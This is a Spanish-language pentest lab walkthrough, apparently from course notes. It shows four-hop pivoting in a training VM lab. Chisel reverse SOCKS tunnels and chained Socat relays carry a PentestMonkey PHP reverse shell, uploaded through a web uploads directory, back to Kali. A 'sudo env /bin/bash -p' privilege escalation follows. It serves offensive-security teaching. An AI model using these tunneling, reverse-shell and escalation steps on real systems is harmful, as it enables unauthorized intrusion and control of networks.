






# Pivoting con Chisel + Socat

  

## Combinando Chisel y Socat

  

En las prácticas anteriores usamos Chisel y Socat por separado. En este escenario más complejo los combinamos: **Socat** actúa como relay de red en las máquinas intermedias para que la conexión Chisel pueda llegar desde una red profunda hasta Kali, y una vez establecido el túnel SOCKS volvemos a usar **Socat** en cadena para redirigir la reverse shell desde la víctima final.

  

Este es el escenario de pivoting más completo del módulo: cuatro saltos de red, tres máquinas intermedias y una víctima final en una red totalmente inaccesible desde Kali de forma directa.

  

## Laboratorio

  

Importamos la OVA **pivoting.ova**, configuramos la red como "Hacking" y levantamos el laboratorio (`tecnico / SegInf`):

  

```bash
$ sudo /etc/init.d/init_vm start
```

  


  

## Paso 1: Distribuir herramientas en toda la cadena

  

Antes de iniciar los pivotes necesitamos distribuir los binarios (chisel, socat, nmap, netscan.sh, nping) en todas las máquinas intermedias. Lo hacemos a través de `scp` encadenado:

  

```bash
# Kali → Debian
$ scp chisel socat nmap netscan.sh tecnico@10.0.0.24:/tmp
```

  

Abrimos tres terminales con las conexiones SSH en cadena:

  

**Terminal 1:** Kali → Debian

  

```bash
Kali $ ssh tecnico@10.0.0.24
```

  

**Terminal 2:** Kali → Debian → Víctima 1

  

```bash
Kali  $ ssh tecnico@10.0.0.24
Debian $ scp chisel socat manchi@10.10.10.2:/tmp
Debian $ ssh manchi@10.10.10.2
```

  

**Terminal 3:** Kali → Debian → Víctima 1 → Víctima 2

  

```bash
Kali     $ ssh tecnico@10.0.0.24
Debian   $ ssh manchi@10.10.10.2
Víctima1 $ scp chisel socat mario@20.20.20.2:/tmp
Víctima1 $ ssh mario@20.20.20.3
```

  

## Paso 2: Establecer el túnel Chisel a través de Socat

  

El objetivo es que la conexión Chisel desde la Víctima 2 (`20.20.20.3`) llegue hasta Kali, pasando por las máquinas intermedias mediante relays Socat.

  

Configuramos proxychains en Kali:

  

```bash
$ sudo nano /etc/proxychains4.conf
# Añadir (dynamic_chain activo):
socks5 127.0.0.1 1080
```

  

Iniciamos el servidor Chisel en Kali:

  

```bash
Kali $ ./chisel server --reverse -p 8000
```

  

Preparamos los relays Socat en las máquinas intermedias para reenviar el tráfico hacia Kali:

  

**En Debian** (reenvía el puerto 8000 hacia Kali):

  

```bash
Debian $ ./socat TCP-LISTEN:8000,fork,reuseaddr TCP:10.0.0.15:8000 &
```

  

**En Víctima 1** (reenvía el puerto 8000 hacia Debian):

  

```bash
manchi $ ./socat TCP-LISTEN:8000,fork,reuseaddr TCP:10.10.10.1:8000 &
```

  

Finalmente lanzamos el cliente Chisel desde la Víctima 2, apuntando a la Víctima 1 (que tiene relay en el 8000):

  

```bash
mario $ ./chisel client 20.20.20.2:8000 R:socks &
```

  

Si todo es correcto, en Kali veremos:

  

```bash
2024/07/28 20:14:41 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

  
    

El flujo del túnel Chisel es: Víctima 2 → Víctima 1 (socat relay 8000) → Debian (socat relay 8000) → Kali (servidor chisel). Desde Kali podemos ahora alcanzar la red `30.30.30.0/24` a través del proxy SOCKS en el puerto 1080.

  

  

## Paso 3: Reconocimiento de la víctima final (30.30.30.3)

  

Con el túnel activo, enumeramos directorios en la máquina final:

  

```bash
$ gobuster dir -r -u http://30.30.30.3 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,html,txt \
  --proxy socks5://127.0.0.1:1080
```

  



  

Encontramos un directorio `/uploads` donde podemos subir archivos. Utilizaremos esto para subir una reverse shell PHP.

  

## Paso 4: Reverse shell PHP y cadena Socat

  

Preparamos la reverse shell PHP (PentestMonkey) apuntando a la IP de la Víctima 2 en la red que comparte con la víctima final:

  

```bash
set_time_limit (0);
$VERSION = "1.0";
$ip = '30.30.30.2';   // IP de mario en la red compartida con la víctima final
$port = 443;
$chunk_size = 1400;
```

  

Ahora montamos la cadena de relays Socat para que la conexión llegue hasta Kali. Empezamos desde Kali en escucha:

  



  

**En Víctima 2 / mario** (`30.30.30.2`): redirige el 443 hacia la Víctima 1:

  

```bash
mario $ ./socat TCP-LISTEN:443,fork,reuseaddr TCP:20.20.20.2:443
```

  

**En Víctima 1 / manchi** (`20.20.20.2`): redirige el 443 hacia Debian:

  

```bash
manchi $ ./socat TCP-LISTEN:443,fork,reuseaddr TCP:10.10.10.1:443
```

  

**En Debian**: redirige el 443 hacia Kali:

  

```bash
Debian $ sudo ./socat TCP-LISTEN:443,fork,reuseaddr TCP:10.0.0.15:443
```

  

Subimos la reverse shell PHP al servidor:

  



  

Y la ejecutamos accediendo a `http://30.30.30.3/uploads/`:

  



  

Obtenemos la conexión en Kali:

  



  

## Paso 5: Escalada de privilegios en la víctima final

  

```bash
$ sudo -l
(root) NOPASSWD: /usr/bin/env

$ sudo -u root /usr/bin/env /bin/bash -p
```

  



  
    

Hemos recorrido cuatro saltos de red (Kali → Debian → Víctima 1 → Víctima 2 → Víctima Final) combinando Chisel para el túnel SOCKS y Socat para los relays de la reverse shell. Esta es la técnica más completa de pivoting en cadena del módulo.

  

  

## 📚 Navegación

  

    [→ Siguiente: Ligolo]([[02 - MODULOS/Prácticas (PoCs)/Herramientas de Auditoría/10e - Pivoting - Práctica 5 - Pivoting Avanzado con Ligolo-ng|10e - Pivoting 5 - Ligolo-ng]])
    [← Anterior: Chisel]([[02 - MODULOS/Prácticas (PoCs)/Herramientas de Auditoría/10c - Pivoting - Práctica 3 - Pivoting con Chisel|10c - Pivoting 3 - Chisel]])
    [↑ Volver al Índice]([[02 - MODULOS/Prácticas (PoCs)/Herramientas de Auditoría/01 - Escaneo y Enumeración de Redes con Nmap|Índice de Herramientas de Auditoría]])
